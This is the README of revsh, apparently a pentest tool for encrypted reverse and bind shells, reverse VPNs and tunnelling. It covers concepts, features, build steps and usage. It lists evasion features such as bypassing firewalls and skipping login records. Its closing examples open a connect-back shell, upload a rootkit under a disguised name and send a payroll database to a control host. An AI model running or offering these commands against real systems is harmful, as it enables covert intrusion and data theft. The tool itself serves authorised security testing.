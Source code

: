 # revsh #

_revsh_ is a tool for establishing [reverse shells](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support, reverse [VPNs](https://en.wikipedia.org/wiki/Virtual_private_network) for [advanced pivoting](https://en.wikipedia.org/wiki/Exploit_(computer_security)#Pivoting), as well as arbitrary data tunneling.

## News ##

* __2018-08-09__: New release. Mosly bug / stability fixes and better documentation on the build process with OpenSSL 1.1.0. See the _Installation_ section below for the updated build instructions.

## Overview ##

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "reverse VPN"?**

_revsh_ is capable of attaching a virtual ethernet card (tun/tap) to both ends of its crypto tunnel. These cards can then be used to forward raw IP packets or ethernet frames. When combined with an Iptables NAT rule, or bridging a real ethernet card, this allows for the operator to receive a fully routable IP address on the target machines network. This, essentially, is a full VPN that has performed a connect-back call to the operator to circumvent in-bound packet filtering and grant the operator full network access. (See ["Documentation/REVERSE_VPN.md"](https://github.com/emptymonkey/revsh/blob/master/Documentation/REVERSE_VPN.md) for more information.)

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell you can either invoke the _-b_ flag on both ends of the connection, or invoke the binary as '_bindsh_'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. vi)
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.
 * Proxy support: point-to-point, SOCKS 4, SOCKS 4a, and SOCKS 5. Proxys are available in both directions for complete flexibility.
 * TUN / TAP support for forwarding raw IP packets / Ethernet frames.
 * Escape sequence commands to kill non-responsive nodes, or print connection statistics.


_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~$ revsh -h
	
	Control:	revsh -c [CONTROL_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	Target:		revsh     [TARGET_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	
		ADDRESS		The address of the control listener.		(Default is "0.0.0.0".)
		PORT		The port of the control listener.		(Default is "2200".)
	
	CONTROL_OPTIONS:
		-c		Run in "command and control" mode.		(Default is target mode.)
		-a		Enable Anonymous Diffie-Hellman mode.		(Default is Ephemeral Diffie-Hellman.)
		-d KEYS_DIR	Reference the keys in an alternate directory.	(Default is "~/.revsh/keys/".)
		-f RC_FILE	Reference an alternate rc file.			(Default is "~/.revsh/rc".)
		-s SHELL	Invoke SHELL as the remote shell.		(Default is "/bin/bash".)
		-F LOG_FILE	Log general use and errors to LOG_FILE.		(No default set.)
	
	TARGET_OPTIONS:
		-t SEC		Set the connection timeout to SEC seconds.	(Default is "3600".)
		-r SEC1,SEC2	Set the retry time to be SEC1 seconds, or	(Default is "600,1200".)
				to be random in the range from SEC1 to SEC2.
	
	MUTUAL_OPTIONS:
		-k		Run in keep-alive mode.
				Node will neither exit normally, nor timeout.
		-L [LHOST:]LPORT:RHOST:RPORT
				Static socket forwarding with a local listener
				at LHOST:LPORT forwarding to RHOST:RPORT.
		-R [RHOST:]RPORT:LHOST:LPORT
				Static socket forwarding with a remote listener
				at RHOST:RPORT forwarding to LHOST:LPORT.
		-D [LHOST:]LPORT
				Dynamic socket forwarding with a local listener
				at LHOST:LPORT.					(Socks 4, 4a, and 5. TCP connect only.)
		-B [RHOST:]RPORT
				Dynamic socket forwarding with a remote
				listener at LHOST:LPORT.			(Socks 4, 4a, and 5. TCP connect only.)
		-x		Disable automatic setup of proxies.		(Defaults: Proxy D2280 and tun/tap devices.)
		-b		Start in bind shell mode.			(Default is reverse shell mode.)
				The -b flag must be invoked on both ends.
		-n		Non-interactive netcat style data broker.	(Default is interactive w/remote tty.)
				No tty. Useful for copying files.
		-v		Verbose. -vv and -vvv increase verbosity.
		-V		Print the program and protocol versions.
		-h		Print this help.
		-e		Print out some usage examples.

## Installation ##

First, you will need to build OpenSSL from source. (See __NOTE__ below.)

	git clone -branch OpenSSL_1_1_0-stable https://github.com/openssl/openssl.git
	cd openssl/
	./config no-shared -static	# These options are needed to build static applications against OpenSSL.
	make && make test	# We skip "make install" so we don't conflict with your systems default OpenSSL. We will build _revsh_ against the OpenSSL we just compiled in this tree.
	cd ..

Now build revsh.

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	vi Makefile        # Check that the selected build environment is the one you want. (It probably already is by default.)
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	vi ~/.revsh/rc     # Add your favorite startup commands to really customize the feel of your remote shell.
	revsh -h

__NOTE:__ With the release of OpenSSL 1.1.0, OpenSSL needs to be built from source for use in a statically linked binary. Building a statically linked binary against the OpenSSL libraries that ship with most Linux distros (including Kali) will *not* work. (If it builds at all, it will SEGFAULT.)

## Examples ##

Control host example IP: 192.168.0.42
<br>
Target host example IP:  192.168.0.66

	Interactive example on default port '2200':
		control:	revsh -c
		target:		revsh 192.168.0.42
	
	Interactive example on non-standard port '443':
		control:	revsh -c 192.168.0.42:443
		target:		revsh 192.168.0.42:443
	
	Bindshell example:
		target:		revsh -b
		control:	revsh -c -b 192.168.0.66
	
	Non-interactive file upload example:
		control:	cat ~/bin/rootkit | revsh -c -n
		target:		revsh 192.168.0.42 > ./totally_not_a_rootkit
	
	Non-interactive file download example:
		control:	revsh -c -n >payroll_db.tar
		target:		cat payroll_db.tar | revsh 192.168.0.42
	
	Non-interactive file download example across existing tunnel:
		control:	revsh -c -n 127.0.0.1:2291 >payroll_db.tar
		target:		cat payroll_db.tar | revsh 127.0.0.1:2290

